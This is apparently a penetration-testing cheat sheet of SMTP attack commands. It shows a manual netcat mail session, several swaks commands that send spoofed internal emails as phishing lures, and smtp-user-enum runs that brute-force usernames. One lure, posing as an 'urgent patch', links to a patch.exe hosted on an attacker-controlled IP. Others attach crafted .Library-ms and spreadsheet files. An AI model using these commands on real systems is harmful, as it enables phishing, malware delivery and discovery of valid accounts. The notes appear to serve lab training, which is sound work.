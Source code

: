 ### Netcat interact with smtp server with annoymous login(line by line copy)
```
0.nc -C mail.example.org 25 //Insert a carriage return character (Ctrl+V Ctrl+M)
1.HELO example.com
2.MAIL FROM:bar@example.org
3.RCPT TO:foo@example.com
4.DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
5.QUIT
```

### swaks to send email
swaks --to "tharper@victim" --from "rmurray@victim" --ehlo victim --body "Following link is urgent patch link: http://192.168.119.130/patch.exe" --header "Subject:urgent patch" --server 192.168.130.55(email server)  

swaks --to jim@relia.com --from maildmz@relia.com --server 192.168.193.189 --attach @/home/kali/Desktop/config.Library-ms --body "Please take a look at the config library file" --header "Subject: Staging Script"  

swaks --to mailadmin@localhost --from jonas@localhost --server 192.168.180.140 --attach @/home/kali/Desktop/spreadsheet.ods --body "Please take a look at the spreadsheet" --header "Please check the spreadsheet"  
### mail server
```
sudo systemctl restart postfix
```

### smtp user enumeration
```
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t host
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.180.140 -v -p 25
```
